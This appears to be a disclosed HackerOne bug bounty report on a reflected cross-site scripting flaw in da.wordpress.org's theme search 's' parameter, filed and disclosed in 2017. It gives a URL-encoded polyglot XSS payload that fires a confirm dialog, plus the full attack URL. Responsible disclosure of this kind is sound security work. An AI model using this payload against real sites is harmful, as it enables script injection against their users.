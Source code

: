 # Reflected XSS at https://da.wordpress.org/themes/?s= via "s=" parameter 

## Report Details
- **Report ID**: 222040
- **URL**: https://hackerone.com/reports/222040
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-04-18T23:43:15.856Z
- **Disclosed**: 2017-07-26T18:16:55.372Z

## Reporter
- **Username**: jon_bottarini
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
Hello - 

You have a reflected XSS vulnerability located at this domain:

https://da.wordpress.org/themes/?s=

This was tested on the latest version of Chrome (Version 57.0.2987.133 (64-bit)

By entering this payload in the URL, you are able to execute a script to fire:

`1%3C!%27/*%22/*\%27/*\%22/*--%3E%3C/Script%3E%3CImage%20Srcset=K%20*/;%20Onerror=confirm`1`%20//%3E#`

Note that the "1" in the confirm is enclosed in backticks, the HackerOne editor just makes it difficult to show. I have attached a screenshot to show the full URL, as well as included it below: 

https://da.wordpress.org/themes/?s=1%3C!%27/*%22/*\%27/*\%22/*--%3E%3C/Script%3E%3CImage%20Srcset=K%20*/;%20Onerror=confirm`1`%20//%3E#

Please let me know if you have any other questions, thanks!



## Attachments
- full_URL.png
- Screen_Shot_2017-04-18_at_4.40.23_PM.png
